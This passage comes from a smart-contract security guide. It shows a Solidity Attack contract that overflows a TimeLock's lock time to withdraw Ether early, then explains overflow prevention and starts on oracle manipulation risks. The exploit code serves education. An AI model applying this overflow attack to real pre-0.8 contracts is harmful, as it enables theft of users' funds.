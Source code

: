 ```
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### How to prevent integer underflows and overflows

As of version 0.8.0, the Solidity compiler rejects code that results in integer underflows and overflows. However, contracts compiled with a lower compiler version should either perform checks on functions involving arithmetic operations or use a library (e.g., [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) that checks for underflow/overflow.

#### Oracle manipulation {#oracle-manipulation}

[Oracles](/developers/docs/oracles/) source off-chain information and send it on-chain for smart contracts to use. With oracles, you can design smart contracts that interoperate with off-chain systems, such as capital markets, greatly expanding their application.

But if the oracle is corrupted and sends incorrect information on-chain, smart contracts will execute based on erroneous inputs, which can cause problems. This is the basis of the “oracle problem”, which concerns the task of making sure information from a blockchain oracle is accurate, up-to-date, and timely.

A related security concern is using an on-chain oracle, such as a decentralized exchange, to get the spot price for an asset. Lending platforms in the [decentralized finance (DeFi)](/defi/) industry often do this to determine the value of a user’s collateral to determine how much they can borrow.

DEX prices are often accurate, largely due to arbitrageurs restoring parity in markets. However, they are open to manipulation, particularly if the on-chain oracle calculates asset prices based on historical trading patterns (as is usually the case).

